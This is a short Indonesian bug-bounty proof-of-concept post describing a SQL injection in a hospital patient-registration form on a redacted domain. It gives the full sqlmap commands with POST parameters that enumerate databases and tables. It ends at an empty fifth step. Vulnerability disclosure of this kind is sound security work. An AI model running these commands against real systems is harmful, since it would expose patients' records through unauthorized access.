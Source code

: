 ```yaml
---
title: "P1 SQL Injection Form Pendaftaran Rumah Sakit"
date: 2023-12-28T13:39:57+07:00
draft: true
tags:
- Bug Bounty
---
```

Saat akan daftar disalah satu rumah sakit tiba tiba kepikiran bisa gak sih form iin di inject?
# POC
1. Buka form pendaftaran, isikan dengan random data

![Form login](https://raw.githubusercontent.com/bembenk18/Images/main/SQLI-Rumah_Sakit/1.png)

2. Intercept post data dengan OWASP ZAP

![POST data](https://raw.githubusercontent.com/bembenk18/Images/main/SQLI-Rumah_Sakit/2.png)

3.  Setelah itu coba dengan sqlmap 
```
sqlmap -u https://redacted.com/index.php/CProsesDaftar/getpasien" --data="nomrm=Halo&tgllahir=2025-05-07&nik=9827982798279827&search=nomrm&tglperiksa=2023-12-07" --level 5 --risk 3 --banner --ignore-code 401 --technique=B --flush --dbs --threads 2
```

![Database name](https://raw.githubusercontent.com/bembenk18/Images/main/SQLI-Rumah_Sakit/3.png)

4. Lihat isi table salah satu database
```
sqlmap -u "https://redacted.com/index.php/CProsesDaftar/getpasien" --data="nomrm=Halo&tgllahir=2025-05-07&nik=9827982798279827&search=nomrm&tglperiksa=2023-12-07" --level 5 --risk 3 --banner --ignore-code 401 --technique=B --flush --threads 2 -D redactedname --tables
```

5. 